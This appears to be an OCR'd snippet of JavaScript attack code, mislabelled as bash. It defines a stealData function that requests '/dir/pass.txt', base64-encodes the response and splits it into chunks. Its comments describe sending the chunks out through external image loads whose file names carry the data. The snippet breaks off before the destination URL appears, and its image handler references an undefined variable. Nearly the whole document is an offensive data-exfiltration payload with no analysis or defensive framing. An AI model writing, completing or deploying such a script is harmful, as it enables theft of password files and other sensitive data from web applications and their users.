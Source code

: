 ```bash

function read_body(xhr) 
{ 
	var data;

	if (!xhr.responseType || xhr.responseType === "text") 
	{
		data = xhr.responseText;
	} 
	else if (xhr.responseType === "document") 
	{
		data = xhr.responseXML;
	} 
	else if (xhr.responseType === "json") 
	{
		data = xhr.responseJSON;
	} 
	else 
	{
		data = xhr.response;
	}
	return data; 
}




function stealData()
{
	var uri = "/dir/pass.txt";

	xhr = new XMLHttpRequest();
	xhr.open("GET", uri, true);
	xhr.send(null);

	xhr.onreadystatechange = function()
	{
		if (xhr.readyState == XMLHttpRequest.DONE)
		{
			// We have the response back with the data
			var dataResponse = read_body(xhr);


			// Time to exfiltrate the HTML response with the data
			var exfilChunkSize = 2000;
			var exfilData      = btoa(dataResponse);
			var numFullChunks  = ((exfilData.length / exfilChunkSize) | 0);
			var remainderBits  = exfilData.length % exfilChunkSize;

			// Exfil the yummies
			for (i = 0; i < numFullChunks; i++)
			{
				console.log("Loop is: " + i);

				var exfilChunk = exfilData.slice(exfilChunkSize *i, exfilChunkSize * (i+1));

				// Let's use an external image load to get our data out
				// The file name we request will be the data we're exfiltrating
				var downloadImage = new Image();
				downloadImage.onload = function()
				{
					image.src = this.src;
				};
```